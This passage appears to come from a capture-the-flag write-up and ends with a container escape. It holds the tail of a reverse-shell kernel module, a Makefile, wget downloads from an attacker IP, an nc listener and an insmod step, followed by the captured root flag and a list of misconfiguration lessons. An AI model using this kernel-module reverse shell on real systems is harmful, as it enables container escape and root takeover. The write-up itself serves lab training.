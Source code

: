 ```c
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

**Makefile:**
```makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/4.15.0-151-generic/build M=/root modules
clean:
	make -C /lib/modules/4.15.0-151-generic/build M=/root clean
```

**Execution:**
```bash
# Transfer files to container
wget http://10.10.14.50:8000/reverse-shell.c
wget http://10.10.14.50:8000/Makefile

# Compile and execute
make
nc -nlvp 1337
insmod reverse-shell.ko
```

<img width="674" height="435" alt="image" src="https://github.com/user-attachments/assets/77636f12-ca13-463b-98e1-8b06dfee84f7" />

<img width="584" height="243" alt="image" src="https://github.com/user-attachments/assets/fa6e6504-d0f1-43a7-9e56-18f73fc3a1eb" />

<img width="638" height="953" alt="image" src="https://github.com/user-attachments/assets/fc0f3575-30f7-40da-9019-0412fad8efc1" />

**Root Flag:**
```bash
cat /root/root.txt
# 9fe02d0b7f6bda0b0cdf6b084722768d
```

## Lessons Learned

### Security Misconfigurations

1. **WordPress Plugin Vulnerability**: Outdated plugins with known vulnerabilities
2. **Information Disclosure**: WordPress configuration file accessible via LFI
3. **Password Reuse**: Same credentials across multiple services
4. **Vulnerable Services**: Unpatched Cacti and OFBiz installations
5. **Container Security**: Excessive capabilities in Docker container

### Defense Recommendations
